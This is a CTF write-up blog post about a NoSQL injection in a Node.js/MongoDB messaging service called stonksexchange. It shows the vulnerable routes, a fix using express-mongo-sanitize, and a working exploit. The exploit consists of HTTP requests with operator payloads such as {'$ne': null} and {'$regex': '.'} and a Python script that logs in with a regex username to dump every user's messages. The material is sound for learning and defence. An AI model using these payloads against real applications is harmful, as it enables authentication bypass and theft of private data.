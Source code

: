 ```yaml
---
layout: post
title: "Report of the BambiCTF of ENOFLAG"
date: 2021-04-07 20:42:39 +0000
categories: [blog]
tags: [ctf]
---
```


This was my first CTF and I will try to explain a vulnerability I fixed and exploited. 

<!--more-->

## Setup 

During the CTF I [connected to the server with VSCode](https://code.visualstudio.com/docs/remote/ssh), which meant I had instant access to all files and could edit them without changing between multiple ssh windows with `nano` editors.

Also the extensions: 
 - [Docker](https://marketplace.visualstudio.com/items?itemName=ms-azuretools.vscode-docker):
   For always having an eye on your services, easy access to logs and one-click terminals to your containers. 
 - [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client):
   For writing simple HTTP Requests in a file format. (see below)
 - [Python](https://marketplace.visualstudio.com/items?itemName=ms-python.python)
   For writing the exploit in a simple jupyter notebook. 

allowed for a hassle free search for vulnerabilities

## Stonksexchange Vulnerability

[Here you can find the vulnerable service to try for yourself.](https://github.com/ldruschk/bambi-service-stonksexchange). 

The service is a simple node application which allows exchange of messages for registered/loggedin users: 

![image](https://user-images.githubusercontent.com/13590797/115123614-2d724c00-9fbe-11eb-8a9b-abe2db800a7d.png)

First I tried a simple XSS attack but was unsuccessful. Then it came to my mind that it might be some kind of injection attack as the service had a database.
After having a look at the files I noticed that user input was passed to the database without sanitizing it: 
```javascript
// /routes/index.js
router.post('/register', function (req, res, next) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /*
   * Notice the findOne() function below which 
   * gets the data directly from the request body
   */
  db.collection('users').findOne({ 'username': req.body.username }).then(results => {
    if (results) {
      res.status(400).send('Username already in use');
      return;
    }
    argon2.hash(req.body.password).then(hash => {
      db.collection('users').insertOne({ 'username': req.body.username, 'password': hash }).then(results => {
        req.session.user = req.body.username;
        res.redirect('/');
      });
    });
  });
});
```

Trying the Endpoint directly confirms the suspicion. [MongoDB Operators](https://docs.mongodb.com/manual/reference/operator/query/) are directly executable.
```HTTP
# This Request always returns "Username already in use" because the query "{"$ne": null}" returns the first user 
# which names is not null (which is always the first user). 
POST http://localhost:8199/register HTTP/1.1
content-type: application/json

{
  "username": {"$ne": null},
  "password": "$#@Call4Code"
}
```

This holds true for multiple functions and googling the words [`mongodb` `findOne`, `vulnerability`](https://www.google.com/search?q=mongodb+findone+vulnerability) leads to possible NoSQL injections. 
So how to fix it? - [Stackoverflow is your friend](https://stackoverflow.com/questions/30585213/do-i-need-to-sanitize-user-input-before-inserting-in-mongodb-mongodbnode-js-co). 
I didn't use the package recommended there, but instead used [express-mongo-sanitize](https://www.npmjs.com/package/express-mongo-sanitize). Installing it and adding the following two lines fixed the problem. 

```javascript
// app.js

/**
  * Adding the following line to load the sanitizer
  */
const mongoSanitize = require('express-mongo-sanitize');

// ...

app.use(logger('dev'));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

/**
  * Use the sanitizer.
  */
app.use(mongoSanitize());
app.use(cookieParser());
```

Trying the endpoints again leads to a new user `{"$ne": null}`. :)


## Stonksexchange Exploit

Now that we know that the endpoints `/register`, `/login` and `/messages` are vulnerable we have to look for the flags.
> Notice that you won't have any flags locally because there is no server putting them there! 

Looking into the database we can see messages with flags. But how to retrieve them?

![image](https://user-images.githubusercontent.com/13590797/115124821-952b9580-9fc4-11eb-8d4c-b5b1a75ed2ca.png)

Having a look at the `/messages` endpoint we can see that `req.session.user` is used without sanitizing it, which means if we can put an Operator like `{"$regex": "."}` there (which matches any character and thus any user), we can retrieve the first 50 messages of the database. 
```javascript
router.get('/messages', function (req, res, next) {
  if (!req.session.user) {
    res.status(403).send('Not logged in');
    return;
  }
  var db = req.app.locals.db;
  /**
    * Notice that req.session.user is passed without sanitizing it
    */
  db.collection('messages').find({ 'username': req.session.user }, { 'sort': { '$natural': -1 } }).limit(50).toArray((err, results) => {
    if (err) {
      res.status(500).send('Internal server error');
      return;
    }
    res.locals.messages = results;
    res.render('messages', { title: 'Messages' });
  });
});
```

Because `user` is read from the `session` we have to "login" with the query we want to execute first. 

```javascript
router.post('/login', function (req, res) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /**
    * The first user matching the username is returned, 
    * if the username is a query like {"$regex": "."} we have to consider the sort function.
    */
  db.collection('users').findOne({ 'username': req.body.username }, { 'sort': { '$natural': -1 } }).then(results => {
    if (!results) {
      res.status(400).send('Invalid username or password');
      return;
    }
    argon2.verify(results.password, req.body.password).then(result => {
      if (!result) {
        res.status(400).send('Invalid username or password');
        return;
      }
      req.session.user = req.body.username;
      res.redirect('/');
    });
  });
});
```

Viewing the `/login` enpoint we can see that the first user matching the query will be returned. As we want the username to be `{"$regex": "."}` we have to consider the ([natural](https://docs.mongodb.com/v4.2/reference/glossary/#term-natural-order)) sort order. 

![image](https://user-images.githubusercontent.com/13590797/115125463-7d561080-9fc8-11eb-84fe-eb8049f2791f.png)

In this case `findOne` will always return the last created user. For a successful login we have to know the password of the user. What better way to just create one?

Lets put it together in a python script:

```python
import requests
base = "http://localhost:8199"

# Prepare the exploit by creating a user with a password we know
prepare = requests.Session()
register = prepare.post(base + '/register', json={ 'username': "sdfsdf", "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Create the exploit Session
exploit = requests.Session()
# Login with the query we want to execute
register = exploit.post(base + '/login', json={ 'username': {"$regex": "."}, "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Get all messages
messages = exploit.get(base + "/messages")
print(messages.content)
```

> During the CTF new users where created from other people exploiting the service, which meant that in order to login with all matching regex a new user had to be created each time. 

